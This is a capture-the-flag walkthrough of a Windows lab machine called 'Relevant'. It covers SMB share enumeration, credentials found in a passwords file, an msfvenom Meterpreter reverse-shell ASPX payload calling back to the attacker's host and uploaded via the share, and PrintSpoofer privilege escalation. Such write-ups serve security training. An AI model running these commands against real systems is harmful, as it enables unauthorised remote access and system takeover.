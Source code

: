 ```yaml
---
sticker: emoji//1f440
---
```


# RELEVANT

## ENUMERATION

***

### OPEN PORTS

***

| PORT                                                                             | SERVICE               |
| -------------------------------------------------------------------------------- | --------------------- |
| 80                                                                               | `http`                |
| 135                                                                              | `msrpc`               |
| 139                                                                              | `netbios-ssn?`        |
| 445                                                                              | `tcp (SMB)`           |
| 3389                                                                             | `ms-wbt-server (RDP)` |
| 49663                                                                            | `http`                |
| 49667                                                                            | `msrpc`               |
| 49669                                                                            | `msrpc`               |
|                                                                                  |                       |
| A lot of ports are open, let's proceed to check the website located at port `80` |                       |

![](gitbook/cybersecurity/images/Pasted%20image%2020241122171440.png)

Nothing useful is in here, let's skip the fuzzing part as it doesn't contain anything too.

As shown in the open ports, we have RDP on `3389` and also SMB on `445`, let's try to enumerate SMB to check if there's anything useful.

## RECONNAISSANCE

***

### SMB Enumeration

Let's run the following command to list the shares in `SMB`:

`smbclient -l IP`

![](gitbook/cybersecurity/images/Pasted%20image%2020241122173253.png)

We find a share `nt4wrksv`, let's research to check if there's a way to access to it:

```ad-hint

#### How to access?
----

Command used

`smbclient \\\\<Victim Ip>\\nt4wrksv`

If we use that, we are able to connect even without the password:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122173850.png)

```

We are in and found a `passwords.txt` file, let's download it and take a look at it:

![](gitbook/cybersecurity/images/Pasted%20image%2020241122173939.png)

Seems like two passwords, both are `base64` encoded, let's decode them:

![](gitbook/cybersecurity/images/Pasted%20image%2020241122174102.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020241122174229.png)

We got the following credentials:

```ad-note

`Bob` : `!P@$$W0rD!123`
`Bill` : `Juw4nnaM4n420696969!$$$`


```

Let's scan the machine further to check if there's anything vulnerable, for this, I will use the following Nmap scan:

```ad-hint

##### Nmap
----

If we use: `nmap -Pn -script vuln IP`, we get the following:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122180438.png)
The `3389` port is vulnerable to RCE. let's get a shell.

```

## EXPLOITATION

***

Nice, for the exploitation part we need to do the following:

```ad-summary
### Step to step to get the shell
---


1. Use msfvenom and create the reverse shell: `msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=OURIP lport=ourport -f aspx -o reverse_shell.aspx`
2. Upload the reverse shell file to the network share:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122182149.png)
3. Use curl to retrieve the reverse shell: `curl http://IP:49663/nt4wrksv/reverse_shell.aspx`
4. Let's use metasploit's multi handler to create a listener:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122182439.png)

Let's run the multi handler and use curl at the same time to get our shell:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241122182628.png)



```

Nice, let's do privilege escalation

## PRIVILEGE ESCALATION

***

For privilege escalation, we need to investigate the machine, let's take a look at the privileges using `getprivs`:

![](gitbook/cybersecurity/images/Pasted%20image%2020241122182831.png)

Most interesting one is the `SeImpersonatePrivilege`, we can impersonate, for this privilege escalation, we'll be impersonating `PrintSpoofer`:

```ad-note

Script: [GITHUB LINK](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)
```

Once we've put the script inside of our machine using smb, we can do the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020241122183155.png)

Switch to shell and go to this route:

`c:/inetpub/wwwroot/nt4wrksv`

![](gitbook/cybersecurity/images/Pasted%20image%2020241122183251.png)

We can now see our `PrintSpoofer64.exe` program, we need to do the following in order to get a reverse shell:

`PrintSpoofer64.exe -i -c powershell.exe`

We are taking advantage of the `SeImpersonatePrivilege`, let's get our root shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020241122183438.png)

And just like that, CTF is done.
